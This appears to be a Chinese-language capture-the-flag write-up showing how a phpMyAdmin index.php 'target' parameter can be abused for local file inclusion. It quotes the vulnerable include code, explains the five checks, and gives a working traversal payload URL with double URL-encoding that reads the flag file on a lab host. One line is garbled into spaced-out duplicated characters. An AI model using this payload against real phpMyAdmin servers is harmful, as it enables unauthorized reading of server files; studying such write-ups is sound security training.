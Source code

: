 
// If we have a valid target, let's load that script instead
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}


</code>

满足以下五个条件就会进行文件包含（<code>include $_REQUEST['target'];</code>）

<code>$_REQUEST['target']</code> 不为空

<code>$_REQUEST['target']</code>参数携带的内容是字符串

<code>$_REQUEST['target']</code>不以index开头

<code>$_REQUEST['target']</code>搜索数组$target_blacklist 中不存在指定的值（ ‘import.php’, ‘export.php’）

<code>Core::checkPageValidity($_REQUEST['target'])</code>为真 具体要看 后面的代码

只要满足这五点我们就可以获得falg

如果w h i t e l i s t 未 传 参 ， 就 会 被 赋 值 为 ‘ whitelist未传参，就会被赋值为`whitelist未传参，就会被赋值为‘goto_whitelist`

构造payload:<code>http://5b521c14-90f1-4004-bdb6-7b32a43fd435.node4.buuoj.cn:81/phpmyadmin/index.php?target=db_datadict.php%253f/../../../../../../../../flag</code>

![upload successful](./images/pasted-292.png)
拿到flag

# [NCTF2019]Fake XML cookbook1
